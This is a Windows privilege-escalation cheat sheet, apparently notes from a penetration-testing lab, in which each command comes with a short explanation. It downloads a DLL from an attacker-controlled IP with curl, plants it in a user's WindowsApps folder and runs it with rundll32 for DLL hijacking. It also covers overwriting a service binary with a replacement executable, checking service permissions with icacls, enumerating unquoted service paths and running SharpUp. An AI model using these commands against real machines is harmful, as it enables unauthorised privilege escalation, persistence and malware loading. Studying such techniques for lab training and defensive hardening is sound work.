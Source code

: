 #### Checking Windows version
```powershell
[environment]::OSVersion.Version
```
- Retrieves the operating system version, assisting in identifying applicable vulnerabilities.

#### Reviewing path variable
```cmd
cmd /c echo %PATH%
```
- Displays the contents of the `PATH` environment variable, which can reveal the locations of executables and scripts.

#### Downloading file with cURL in PowerShell
```powershell
curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```
- Uses `curl` to download a file, here a DLL, into a specific directory, potentially for side-loading or DLL hijacking.

#### Executing custom DLL with rundll32.exe
```cmd
rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```
- Executes a specified DLL file using `rundll32`, a method often used in persistence or malware loading techniques.

#### Running SharpUp
```cmd
.\SharpUp.exe audit
```
- Executes `SharpUp`, a privilege escalation enumeration tool that checks for common Windows misconfigurations.

#### Checking service permissions with icacls
```cmd
icacls "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
- Uses

 `icacls` to review the permissions of a specific service executable, identifying potential for unauthorized modification.

#### Replace a service binary
```cmd
cmd /c copy /Y SecurityService.exe "C:\Program Files (x86)\PCProtect\SecurityService.exe"
```
- Copies a new executable over a service binary, a technique used for maintaining persistence or escalating privileges.

#### Searching for unquoted service paths
```cmd
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """
```
- Identifies services with unquoted paths that contain spaces, which can be exploited to execute arbitrary code.
